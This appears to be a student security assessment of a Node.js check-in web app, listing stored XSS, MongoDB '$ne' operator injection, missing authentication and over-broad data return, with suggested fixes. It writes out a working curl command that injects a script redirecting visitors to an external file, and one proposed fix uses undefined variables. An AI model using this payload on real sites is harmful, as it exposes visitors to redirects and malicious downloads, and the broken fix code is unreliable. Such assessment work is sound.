

- Location of issue: Parsing post parameters sent to server (index.js line 90)
- Severity of issue: High. May lead to issues such as downloading unwanted viral content, as shown below
- Description of issue: The string login parameter stored in the database isn't parsed before being stored in the database, allowing for html script injections. For example, when I send the following to the server:
curl --data "login=<script> document.location.href = 'https://raw.githubusercontent.com/tuftsdev/comp20-jyang/master/security/examples/virus.txt?token=Ac8Ju3YoSwLSPnt2T127XWdADCoewghzks5aNFSdwA%3D%3D'; </script>&lat=0&lng=0" https://stark-journey-75501.herokuapp.com/sendLocation
accessing https://stark-journey-75501.herokuapp.com/ will cause an automatic redirect to opening the file "virus.txt" in the browser. If the file was a .exe file instead, or any file that's automatically downloaded if it can't be opened in a browser window, serious harm could be caused. - Proof of vulnerability:
Injection of harmful javascript code into database as a fake login

The application (server) home page after redirecting to opening the harmful file due to login script
- Resolution: This issue can be alleviated by removing all special characters from the string login input by replacing index.js line 90 with:
var login = request.body.login.replace(/[^\w\s]/gi, '');
Another solution that preserves the special characters is to html encode the string login input before storing in the database, which can be done with the npm htmlencode package detailed here.
- Location of issue: Finding entries that match the login GET parameter to /checkins.json (index.js line 69)
- Severity of issue: Low, only because the application already allows access to all the login entries elsewhere in the app
- Description of issue: The login parameter is directly entered as a search query to the mongodb database. Thus, query operators such as the "not equal" ($ne) operator may be entered and applied so checkins.json returns all the entries not equal to the search query rather than only searching for the query as intended.
With the way the app is set up now, the issue does not have much impact, since all the login entries are returned anyway at the '/' homepage. However, it is still important to remove the user's ability to access data on other users to which they should not be privy, in case the app is further developed in a way that information on all users is no longer willingly released.
- Proof of vulnerability:
- Resolution: Instead of directory passing the query from the GET request to the find function, each entry's login in the database should be compared to the GET request query so no operators will be called. For example, changing index.js lines 69-75 to:
coll.find().toArray(function (err, checkins) {
if (!err) {
var userlogins = [];
for (var i = 0; i < results.length; i++)
if (login == checkins[i].login)
userlogins.push(checkins[i]);
res.send(logins);

Fake login 'jingqi' should not return any checkins
Even with the fake login, an injection attack can be made to get all checkins in the database
- Location of issue: Where the login is entered to access data from the application (index.js lines 67, 96)
- Severity of issue: Low, only because the application already allows access to all the login entries elsewhere in the app
- Description of issue: Though every front-end client was given a specific username to protect user privacy, the validity of this login username is never verified (there is no sign-in process with the login username). Literally anyone who knows the application url and specified parameters can request data on any login in the system.
- Proof of vulnerability:
- Resolution: If a user is to use the server, they should be required to make an account or in some way authenicate that they are exactly that user.

I can alter my login on the client side and make it appear as if mchowgrading logged in near me
I am not mchowgrading, yet I can still see all of mchowgrading's previous checkins
- Issue: Poor programming practice
- Location of issue: Returning the landmarks to the map (index.js line 114)
- Severity of issue: Low-medium, because the app allows access to data that's supposed to be inaccessible, but the data itself does not contain sensitive information
- Description of issue: Even though only the landmarks within a 1 mile radius of the user are intended to be shown, all of the landmarks in the database are returned and displayed on the map.
With the way the app is set up now, the issue does not have much impact, due to the landmarks data being publicly accessible and impersonal anyway. However, if the client is only supposed to have access to certain information, showing other information is bad practice and could be harmful with more sensitive data.
- Proof of vulnerability:
- Resolution: Instead of finding all landmarks in the database, the 2d sphere index function needs to be used, so only the ones within a 1 mile radius of the user's coordinates and found.
Landmarks from outside the 1 mile radius are displayed on the map